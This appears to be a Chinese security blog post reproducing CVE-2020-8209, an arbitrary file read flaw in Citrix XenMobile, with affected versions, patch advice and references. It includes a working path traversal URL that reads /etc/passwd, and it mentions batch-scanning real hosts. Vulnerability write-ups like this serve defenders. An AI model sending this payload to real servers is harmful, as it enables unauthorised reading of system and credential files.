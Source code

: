 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/EiPdSw9d7cN0lMjXVxwvVA)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfibn3B7zsA0NcxA6k9pVicm4OQotzicXl3gf2b3CGQDyzBmSzpmIH529MLGo2x1WV3BqvnI2ndpTVxA/640?wx_fmt=png)

CVE-2020-8209（Citrix Endpoint Management 任意文件读取）

一、漏洞描述：

XenMobile 是 Citrix 开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。

Citrix Endpoint Management 存在 任意文件读取漏洞，远程未授权攻击者 通过 发送特制 HTTP 请求，可以造成 读取受影响设备上任意文件 的影响。

二、影响版本

以下版本受到严重影响

XenMobile Server < 10.12 RP2

XenMobile Server < 10.11 RP4

XenMobile Server < 10.10 RP6

XenMobile Server < 10.9 RP5

以下版本受到中等影响

XenMobile Server < 10.12 RP3

XenMobile Server < 10.11 RP6

XenMobile Server < 10.10 RP6

XenMobile Server < 10.9 RP5

三、漏洞复现

POC 很简单：直接访问 url 路径就是 

```
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfibn3B7zsA0NcxA6k9pVicm4setfHQY5W5O7iaX0kv7VkK9tziamIsgq2ibOSWJXad5Yhib3lGT8BGdQrg/640?wx_fmt=png)

直接访问就下载文件了  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfibn3B7zsA0NcxA6k9pVicm4D5X8NFGwKgFUzmhdibuDhdX0blgm8LleY2QuzlcXTAESfZuyicgicgRFw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfibn3B7zsA0NcxA6k9pVicm4ibNTMq5ugmMiajia5R9EWPvwiaoagJPib9bbMIYibIVV2HibPgfydf14ZjGFQ/640?wx_fmt=png)

尝试批量跑了一下（基本上国外的较多使用）：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfibn3B7zsA0NcxA6k9pVicm4z1iaicX2a7MNwx8TkyZib0SEPDkw1AUibFOcgEzQpblR1OCC8LLAe6KfwA/640?wx_fmt=png)

四、修补建议：

根据版本安装修补程序

XenMobile Server 10.12 RP3 XenMobile Server 10.11 RP6 XenMobile Server 10.10 RP6 XenMobile Server 10.9 RP5

参考：

https://cert.360.cn/warning/detail?id=c90721afed448a76134344672230c3ae

https://mp.weixin.qq.com/s/6s97cZepY11\_IQDYD0bFwA（阿乐）

https://www.baidu.com/s?ie=utf-8&f=8&rsv\_bp=1&rsv\_idx=1&tn=baidu&wd=CVE-2020-8209&fenlei=256&rsv\_pq=a1f844480001758e&rsv\_t=1cadbCZbwvAVhODBaYHphFmUgW3X9adpsH653gIO9l58hEDsKAE7iGLmXdA&rqlang=cn&rsv\_enter=1&rsv\_dl=tb&rsv\_sug3=2&rsv\_sug1=1&rsv\_sug7=001&rsv\_sug2=0&rsv\_btype=i&prefixsug=%2526lt%253BV%2526gt%253B-2020-8209&rsp=5&rsv\_sug9=es\_0\_1&inputT=373&rsv\_sug4=387&rsv\_sug=9

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq\_37602797/category\_10169006.html

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)